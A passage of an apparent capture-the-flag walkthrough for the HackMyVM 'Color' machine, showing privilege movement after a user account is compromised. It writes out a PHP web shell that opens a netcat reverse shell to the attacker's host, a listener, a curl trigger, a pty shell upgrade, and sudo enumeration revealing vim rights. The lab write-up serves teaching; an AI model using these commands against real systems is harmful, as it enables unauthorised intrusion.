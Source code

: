 Now that we have compromised a user account on the target system, we can use this account to enumerate the system further. During enumeration, we will see that any user can write in the /var/www/html directory. 
```bash
pink@color:/var/www$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Jan 27  2023 .
drwxr-xr-x 12 root     root     4096 Jan 27  2023 ..
drwxrwxrwx  2 www-data www-data 4096 Feb 11  2023 html
```
We can create a reverse shell in that directory and compromise the www-data account. To do this, we first need to create the shell.php file in the /var/www/html directory.
```bash
pink@color:/var/www$ echo '<?php system("nc -c /bin/bash 10.0.2.16 4444"); ?>' > html/shell.php
```

Secondly, we can start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Finally, we need to access the shell.php file to trigger the execution of the payload.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color]
└─$ curl -s http://10.0.2.28/shell.php
```

When we go back to our listener, we will notice a reverse connection from the target. We can upgrade this simple shell to a fully interactive shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.28] 50038
python3 -c 'import pty;pty.spawn("/bin/bash")' 
www-data@color:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ stty raw -echo;fg                     
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
www-data@color:/var/www/html$ 
```

With now use the www-data account to further our enumeration. We will notice that this account has special sudo permissions to open the Vim text editor as the local user green. 
```bash
www-data@color:/var/www/html$ sudo -l
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim
www-data@color:/var/www/html$ 
```
